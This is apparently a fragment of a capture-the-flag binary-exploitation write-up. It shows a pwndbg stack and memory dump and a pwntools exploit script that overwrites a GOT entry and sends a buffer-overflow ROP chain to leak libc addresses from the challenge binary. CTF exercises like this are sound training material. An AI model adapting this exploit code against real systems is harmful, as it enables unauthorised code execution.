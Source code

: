 ```sh
   0x4008ba    ret    
 
   0x4008bb    push   rbp
   0x4008bc    mov    rbp, rsp
─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp  0x7ffdb00bc120 ◂— 0x0
01:0008│      0x7ffdb00bc128 ◂— 0x601020226ef100
02:0010│ rbp  0x7ffdb00bc130 —▸ 0x7ffdb00bc260 —▸ 0x4009a0 ◂— push   r15
03:0018│      0x7ffdb00bc138 —▸ 0x400966 ◂— jmp    0x400939
04:0020│      0x7ffdb00bc140 ◂— 0x0
... ↓
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0           4008b3
   f 1           400966
   f 2     7f4c384af840 __libc_start_main+240
```

```sh
    pwndbg> x/20gx 0x601020
0x601020:	0x00000000004005ec	0x00007f4c38586350
0x601030:	0x00007f4c384af750	0x00007f4c384fee80
0x601040:	0x00007f4c384c5e90	0x0000000000400656
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x000000deadffffcd	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080 <stdout>:	0x00007f4c38854620	0x0000000000000000
0x601090 <stdin>:	0x00007f4c388538e0	0x0000000000000000
0x6010a0 <stderr>:	0x00007f4c38854540	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
```

EXP:

```python
    from pwn import *

    p=process('./pwn1')
#p=remote('node4.buuoj.cn',27412)
    elf=ELF('./pwn1')
    context.log_level='debug'
    libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

    pop_rdi_ret=0x0000000000400a03

    p.sendlineafter('your choice','0')
# gdb.attach(p)
    p.sendlineafter('address:\n',str(0x601020))
    p.sendlineafter('content:\n',p64(elf.plt['puts']))

    p.sendlineafter('address:\n','-1')

    p.sendlineafter('your choice\n','1')


    p.sendlineafter('size:\n',str(0x200))
    payload = 'A'*0x110+'b'*8 + p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x40090b)
    p.sendlineafter('content:\n',payload)
    p.sendlineafter('your choice\n','-1')


```